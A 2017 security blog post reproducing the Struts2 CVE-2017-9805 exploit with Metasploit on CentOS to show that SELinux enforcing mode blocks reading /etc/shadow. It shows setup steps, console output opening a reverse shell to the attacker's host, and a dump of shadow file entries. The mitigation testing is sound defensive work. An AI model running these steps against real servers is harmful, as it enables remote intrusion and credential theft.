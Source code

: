 +++
date = "2017-09-11T15:59:59+09:00"
title = "S2-052: CVE-2017-9805(Struts2) PoC with SELinux"
draft = false

+++

We did recently "Important" Struts2 vulnerability(CVE-2017-9805) PoC to check how SELinux can mitigate that vulnerability. 

(Written by Kazuki Omo:ka-omo@sios.com).

## Prepare for PoC

Here is a description how to reproduce it. **I used CentOS7 image for the PoC.
I used VMWare Guest(CPU: 1, Memory: 2GB) for the PoC.**
Also, I used selinux-policy-targeted-3.13.1-145.el7.noarch (See related post: http://www.secureoss.jp/post/omok-selinux-struts2-20170607/).

  1.  Install tomcat and related packages for working Struts2.

  2.  Download and install vulnerable version of Struts2. I used struts-2.5.11. Copy struts2-showcase.war and struts2-rest-showcase.war under /var/lib/tomcat/webapps
        
        root@centos7:~# ls /var/ls /var/lib/tomcat/webapps/*war
        /var/lib/tomcat/webapps/struts2-showcase.war
        /var/lib/tomcat/webapps/struts2-rest-showcase.war

  3.  Prepare Metasploit for the PoC. You can easy to use "Kali Linux(https://www.kali.org/downloads/)" for running Metasploit Framework. Run "apt-get update ; apt-get upgrade" for updating Kali Linux completely, then follow the procedure for running CVE-2017-9805 PoC (Set up Metasploit Module for Apache Struts2 Rest : http://hackersgrid.com/2017/09/metasploit-module-for-apache-struts-2-rest-cve-2017-9805.html).

  4.  To avoid normal Unix permission check for the PoC, I changed /etc/shadow permission to 755. 
	
        root@centos7:~# ls -lZ /etc/shadow
        -rwxr-xr-x. root root system_u:object_r:shadow_t:s0        /etc/shadow


* * *

## PoC with no SELinux(SELinux Permissive)

  1.  Confirm SELinux is Permissive mode;
        
        root@centos7:~# getenforce
        Permissive
        

  2. Run PoC from msfconsole(Metasploit). AA.AA.AA.AA is Kali Linux IP, and XX.XX.X.XX is Struts2 PoC server;
        
         msf exploit(struts2_rest_xstream) > exploit
         
         [*] Started reverse TCP double handler on AA.AA.AA.AA:4444 
         [*] Accepted the first client connection...
         [*] Accepted the second client connection...
         [*] Command: echo DxP98C50UAVxX6jn;
         [*] Writing to socket A
         [*] Writing to socket B
         [*] Reading from sockets...
         [*] Reading from socket B
         [*] B: "DxP98C50UAVxX6jn\r\n"
         [*] Matching...
         [*] A is input...
         [*] Command shell session 2 opened (AA.AA.AA.AA:4444 -> XX.XX.XX.XX:43584) at 2017-09-11 15:42:12 +0900
         
         id
         uid=91(tomcat) gid=91(tomcat) groups=91(tomcat) context=system_u:system_r:tomcat_t:s0

         root:XXXXXX.::0:99999:7:::
         bin:*:17110:0:99999:7:::
         daemon:*:17110:0:99999:7:::
         --snip--
         sshd:!!:17247::::::
         jssosug:XXXXXXXXXXXX::0:99999:7:::
        
         jsossug@vmhost:~$

* * *
## PoC with SELinux Enabled(SELinux Enforcing)

  1. Reboot and set SELinux as Enforcing.

        root@centos7:~# getenforce
        Enforcing

  2. Run PoC from msfconsole(Metasploit). AA.AA.AA.AA is Kali Linux IP, and XX.XX.X.XX is Struts2 PoC server;
        
         msf exploit(struts2_rest_xstream) > exploit
         
         [*] Started reverse TCP double handler on AA.AA.AA.AA:4444 
         [*] Accepted the first client connection...
         [*] Accepted the second client connection...
         [*] Command: echo DxP98C50UAVxX6jn;
         [*] Writing to socket A
         [*] Writing to socket B
         [*] Reading from sockets...
         [*] Reading from socket B
         [*] B: "DxP98C50UAVxX6jn\r\n"
         [*] Matching...
         [*] A is input...
         [*] Command shell session 2 opened (AA.AA.AA.AA:4444 -> XX.XX.XX.XX:43584) at 2017-09-11 15:49:01 +0900
         
         id 
         uid=91(tomcat) gid=91(tomcat) groups=91(tomcat) context=system_u:system_r:tomcat_t:s0

         cat /etc/shadow
         cat: /etc/shadow: Permission denied

   3. Check AVC log on Struts PC;

        type=AVC msg=audit(1505112552.257:431): avc:  denied  { read } for  pid=4684 comm="cat" name="shadow" dev="dm-1" ino=34690693 scontext=system_u:system_r:tomcat_t:s0 tcontext=system_u:object_r:shadow_t:s0 tclass=file

        
* * *
## Conclusion

From this PoC we can say

1. Latest SELinux can mitigate Struts2 vulnerability "if Policy is updated".
